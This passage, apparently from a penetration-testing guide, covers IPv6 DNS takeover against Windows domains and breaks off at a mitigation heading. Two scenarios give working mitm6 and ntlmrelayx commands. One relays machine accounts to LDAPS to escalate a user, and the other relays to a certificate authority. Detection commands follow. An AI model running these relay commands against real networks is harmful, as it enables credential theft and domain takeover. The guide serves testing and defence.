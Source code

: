 #### Scenario 2: Machine Account Takeover
```bash
# Target domain controllers for machine account relay
mitm6 -d domain.local

# Relay machine accounts to LDAP for privilege escalation
ntlmrelayx.py -t ldaps://dc.domain.local -wh fakewpad.domain.local -6 \
  --escalate-user lowprivuser
```

#### Scenario 3: Certificate Authority Targeting
```bash
# Target Certificate Authority for certificate templates
mitm6 -d domain.local

# Relay to ADCS for certificate request
ntlmrelayx.py -t https://ca.domain.local/certsrv/ -wh fakewpad.domain.local -6
```

### Detection and Monitoring

#### Network Indicators
```bash
# Monitor for suspicious IPv6 Router Advertisements
tcpdump -i eth0 icmp6 and 'ip6[40] = 134'

# Monitor for IPv6 DNS queries to unexpected servers
tcpdump -i eth0 'ip6 and port 53'

# Check for WPAD requests over IPv6
tcpdump -i eth0 'ip6 and port 80 and host fakewpad'
```

#### Windows Event Logs
- Event ID 4648: Explicit credential logon
- Event ID 4624: Successful logon (Type 3 - Network)
- Event ID 5156: Windows Filtering Platform connection allowed

#### PowerShell Detection
```powershell
# Check IPv6 configuration
Get-NetIPConfiguration | Where-Object {$_.IPv6Address -ne $null}

# Monitor IPv6 DNS servers
Get-DnsClientServerAddress -AddressFamily IPv6

# Check for suspicious WPAD configuration
Get-WinHttpSettings
```

### Mitigation Strategies

